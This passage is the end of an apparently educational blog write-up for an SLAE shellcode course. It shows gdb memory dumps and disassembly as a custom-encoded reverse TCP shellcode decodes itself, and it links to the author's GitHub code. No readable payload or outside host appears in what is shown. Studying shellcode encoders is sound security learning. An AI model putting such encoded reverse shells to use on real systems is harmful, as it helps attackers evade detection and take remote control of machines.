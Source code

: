 0x4040a8 <code+104>:    0x8f    0xcc    0x80    0xcc    0x10    0xcc    0x89    0xcc
0x4040b0 <code+112>:    0x7b    0xcc    0x40    0xcc    0xf7    0xcc    0xc7    0xcc
0x4040b8 <code+120>:    0x51    0xcc    0x8f    0xcc    0x65    0xcc    0x37    0xcc
0x4040c0 <code+128>:    0x4d    0xcc    0xe2    0xcc    0x08    0xcc    0xd6    0xcc
0x4040c8 <code+136>:    0xbf    0xcc    0xf1    0xcc    0xd8    0xcc    0x80    0xcc
0x4040d0 <code+144>:    0x18    0xcc    0x78    0xcc    0x38    0xcc    0xe2    0xcc
0x4040d8 <code+152>:    0xd8    0xcc    0xaf    0xcc    0xec    0xcc    0xe2    0xcc
0x4040e0 <code+160>:    0xd6    0xcc    0xbe    0xcc    0x37    0xcc    0x5f    0xcc
0x4040e8 <code+168>:    0x0e    0xcc    0xe2    0xcc    0x7b    0xcc    0x40    0xcc
0x4040f0 <code+176>:    0x8f    0xcc    0x80    0xcc    0xf0    0xcc    0xd8    0xcc
0x4040f8 <code+184>:    0x99    0xcc    0x99    0xcc    0xcd    0xcc    0xd8    0xcc
0x404100 <code+192>:    0xd8    0xcc    0x99    0xcc    0xde    0xcc    0xd7    0xcc
0x404108 <code+200>:    0xda    0xcc    0x37    0xcc    0x5d    0xcc    0xf0    0xcc
0x404110 <code+208>:    0x37    0xcc    0x5e    0xcc    0xed    0xcc    0x37    0xcc
0x404118 <code+216>:    0x5f    0xcc    0x10    0xcc    0xb5    0xcc    0x7b    0xcc
0x404120 <code+224>:    0x40    0xcc    0xdd    0xdd    0x00    0x00    0x00    0x00
0x404128:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x404130:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x404138:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x404140:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x404148:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00

Breakpoint 2, 0x00404066 in code ()

(gdb) x/5i 0x404070
   0x404070 <code+48>:  xor    eax,eax
   0x404072 <code+50>:  xor    ebx,ebx
   0x404074 <code+52>:  xor    esp,ecx
   0x404076 <code+54>:  gs int3 
   0x404078 <code+56>:  (bad) 
(gdb) 

{% endhighlight %}

The encoded shellcode keep being decoded, we can see our original reverse TCP shellcode is slowly presented as its original assembly code.

![gdb](https://bohansec.com/assets/assignmet4-5.png "gdb")
![gdb](https://bohansec.com/assets/assignmet4-6.png "gdb")

You can find all the above code at [here](https://github.com/allan9595/SLAE-Assignments/tree/master/assignment4){:target="_blank"}.

Thanks for reading :)